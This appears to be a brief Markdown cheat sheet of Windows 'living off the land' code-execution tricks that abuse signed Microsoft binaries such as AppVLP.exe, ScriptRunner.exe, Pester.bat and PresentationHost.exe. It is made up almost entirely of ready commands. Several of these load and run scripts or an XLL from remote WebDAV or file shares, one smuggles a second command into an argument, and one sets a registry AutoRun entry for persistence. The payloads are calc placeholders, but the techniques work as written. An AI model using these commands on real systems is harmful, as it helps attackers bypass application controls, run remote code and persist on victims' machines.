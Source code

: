 # Code Execution...
Generally useless ways to exec code.

## appvlp.exe
```
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe', '', '', 'open', 1)"
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')"
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe \\webdav\calc.bat
```

## scriptrunner.exe
```
C:\Windows\System32\ScriptRunner.exe -appvscript "\\fileserver\calc.cmd"
C:\Windows\System32\ScriptRunner.exe -appvscript powershell.exe -args
```

## pester.bat
```
C:\Program Files (x86)\WindowsPowerShell\Modules\Pester\3.4.0\bin\Pester.bat help  "; Get-Process"
```

##  powershellcustomhost.exe (Likely installed with IIS)
```
C:\Program Files\IIS\Microsoft Web Deploy V3\Scripts\powershellcustomhost.exe calc.ps1
```

## presentationhost.exe 
```
PresentationHost.exe file://c:\windows\system32\calc.exe
```

## command processor
```
reg add "HKCU\Software\Microsoft\Command Processor" /v AutoRun /d "start calc.exe"
open a command prompt...
```
